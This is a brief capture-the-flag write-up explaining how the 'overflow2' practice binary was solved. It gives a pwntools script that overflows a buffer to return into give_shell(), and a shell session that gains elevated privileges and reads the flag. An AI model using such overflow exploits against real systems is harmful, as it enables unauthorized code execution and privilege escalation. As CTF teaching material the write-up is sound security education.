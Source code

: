 ### Solved by superkojiman

Easy challenge. Just overflow the buffer in the vuln() function and return to give_shell():

```
#!/usr/bin/env python
from pwn import *

buf = ""
buf += "A"*28
buf += p32(0x80484dd)
open("in.txt", "w").write(buf)
```

Transfer in.txt over to the server and pass it as the argument to overflow2 to get a shell:

```
team24254@shell:/problems/overflow2$ ./overflow2 `cat ~/in.txt`
$ id
uid=1028(team24254) gid=1000(ctfgroup) euid=1078(overflow2) groups=1001(overflow2),1000(ctfgroup)
$ cat flag.txt
youre_lucky_i_left_that_function_for_you
$
```
